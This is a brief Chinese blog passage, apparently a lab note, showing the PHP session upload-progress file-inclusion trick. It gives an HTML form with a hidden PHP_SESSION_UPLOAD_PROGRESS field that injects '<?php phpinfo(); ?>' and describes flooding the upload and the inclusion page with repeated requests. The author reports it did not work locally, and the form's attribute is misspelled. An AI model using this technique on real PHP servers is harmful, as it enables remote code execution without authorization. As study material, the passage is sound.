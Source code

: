 #### 技巧2

我们写一个前端代码 用来文件上传

```cobol
<!doctype html>
<html>
<body>
<form action="http://localhost/index.php" method="post" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" vaule="<?php phpinfo(); ?>" />
    <input type="file" name="file1" />
    <input type="file" name="file2" />
    <input type="submit" />
</form>
</body>
</html>
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/1c9dc82f01c5079e6aa558558ae3110e.png" alt="" style="max-height:651px; box-sizing:content-box;" />


然后放到攻击模块 一直发包



<img src="https://i-blog.csdnimg.cn/blog_migrate/6f374dac85c6ed7dcef2d7f4a9dd1bc9.png" alt="" style="max-height:283px; box-sizing:content-box;" />




然后去包含漏洞页面 也是无限发包 就可以实现访问了

但是本地环境 我设置可能没有设置好 无法实现

到这里就差不多理解了